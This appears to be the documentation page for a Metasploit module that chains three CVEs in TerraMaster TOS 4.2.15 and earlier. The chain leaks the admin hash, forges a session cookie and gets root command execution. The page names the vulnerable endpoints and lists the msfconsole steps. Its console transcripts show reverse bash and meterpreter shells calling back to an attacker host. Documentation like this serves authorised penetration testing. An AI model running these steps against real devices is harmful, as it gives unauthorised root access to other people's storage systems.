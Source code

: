 ## Vulnerable Application

This module provides a Terramaster chained exploit that performs session crafting to achieve escalated privileges
that allows an attacker to access vulnerable code execution flaws. TerraMaster Operating System (TOS) versions
`4.2.15` and below are affected.

[CVE-2021-45839](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45839) is exploited to obtain the first administrator's
hash set up on the system as well as other information such as MAC address, by performing a POST request to the
`/module/api.php?mobile/webNasIPS` vulnerable endpoint.
This information is used to craft an unauthenticated admin session using vulnerability
[CVE-2021-45841](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45841) where an attacker can self-sign session cookies
by knowing the target MAC address and the user password hash. Guest users (disabled by default) can be abused using a null/empty hash
and allow an unauthenticated attacker to login as guest which is used to download the `/etc/group` info to obtain the list of admin users
to be used for the session crafting.

Finally, [CVE-2021-45837](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45837) is exploited to execute arbitrary commands as root
by sending a specifically crafted input to vulnerable endpoint `/tos/index.php?app/del`.

This module has been tested against a TerraMaster `F2-221` Model with the specifications listed below:

* TerraMaster F2-221
* CPU: `x86`
* TOS Version: `4.2.08`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2021_45837`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options
No specific options.

## Scenarios

### TerraMaster F2-210 TOS 4.2.08 - Unix Command `cmd/unix/reverse_bash` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > set target 0
target => 0
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.10.1:4444 -> 192.168.10.2:41822) at 2023-06-06 07:27:36 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Tue Jun 06 09:28:43 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-210 TOS 4.2.08 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > set target 1
target => 1
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (192.168.10.1:4444 -> 192.168.10.2:36938) at 2023-06-06 07:29:50 +0000
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
